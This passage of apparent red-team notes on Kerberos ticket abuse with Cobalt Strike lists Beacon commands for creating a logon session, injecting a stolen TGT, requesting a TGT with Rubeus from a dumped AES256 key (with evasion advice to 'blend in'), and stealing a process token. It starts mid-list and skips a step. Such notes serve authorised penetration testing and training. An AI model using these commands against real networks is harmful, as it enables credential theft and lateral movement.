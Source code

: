 2. Create a new local logon session
	- This is because each logon session can only have one TGT at a time

```beacon
make_token $DOMAIN\$USER $DUMMY_PASSWORD
```

3. Inject the TGT into the logon session

```beacon
kerberos_ticket_use $PATH_TO_TGT_ON_ATTACKING_MACHINE
```

5. Leverage the logon session to interact with the target resource

### Elevated

1. Use the target user's [[cobalt-strike-user-impersonation#Dump Kerberos Encryption Keys of Logged On Users|Kerberos encryption key]] to request a Ticket Granting Ticket (TGT) for the target user and spawn a `cmd.exe` process
	- AES 128, AES 256, and RC4 (NTLM) keys can be used
		- However, Windows uses AES 256 keys by default, so you should too to blend in
	- See [[rubeus|Rubeus]]
	- Note the `cmd.exe` process's PID

```beacon
execute-assembly $PATH_TO_RUBEUS asktgt /domain:$DOMAIN /user:$USER /aes256:$AES_256_KEY /nowrap /opsec /createnetonly:C:\Windows\System32\cmd.exe
```

2. Steal the `cmd.exe` process's PID

```beacon
steal_token $PID
```
